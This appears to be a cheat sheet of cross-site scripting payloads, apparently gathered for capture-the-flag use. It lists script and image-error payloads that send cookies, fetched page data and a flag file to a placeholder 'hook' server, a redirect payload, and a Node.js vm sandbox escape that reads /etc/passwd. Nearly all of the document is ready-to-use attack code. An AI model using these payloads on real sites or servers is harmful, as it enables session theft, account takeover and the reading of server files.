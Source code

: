 ### Open connection

- **GET**
  - `<script>fetch('http://hook')</script>`

- **POST**
  - `<script>fetch('http://hook',{method:'POST'})</script>`

- **Open and redirect**
  - `<script>fetch("https://localhost").then((response) => response.json()).then((data) => fetch("https://hook/?/=".concat(JSON.stringify(data)),{credentials:'include'}));</script>`

### Cookie

- **XmlHttpRequest**
  - `<script>var a=new XmlHttpRequest();a.open("GET","https://hook",true);a.withCredentials=true;a.send(null);</script>`

- **Element**
  - `<script>fetch('http://hook?a='+document.cookie);</script>`
  - `<script>var i=new Image;i.src="https://hook/?"+document.cookie;</script>`
  - `<script>var i=new Image();i.src="https://hook?cookie="+btoa(document.cookie);</script>`
  - `<img src=x onerror="javascript:document.location='https://hook?cookie='+document.cookie;">`
  - `<img src=x onerror="this.src='https://hook/?'+document.cookie;this.removeAttribute('onerror');">`
  - `"'&<></h1><script>fetch('/flag').then(r=>{r.text().then(t=>fetch('https://hook/?flag='+btoa(t),{'mode':'no-cors'}))})</script><h1></h1>`
 
### Redirect

- **Window**
  - `<script>window.location.replace("https://hook");</script>`

### VM

```javascript
const vm = require('vm');
const result = vm.runInNewContext(`
  (function() {
    var c = 'constructor';
    var require = require=this[c][c]('return process')().mainModule.require;
    var fs = require('fs');
    return String(fs.readFileSync('/etc/passwd'));
  })()
`);

console.log(result);
```

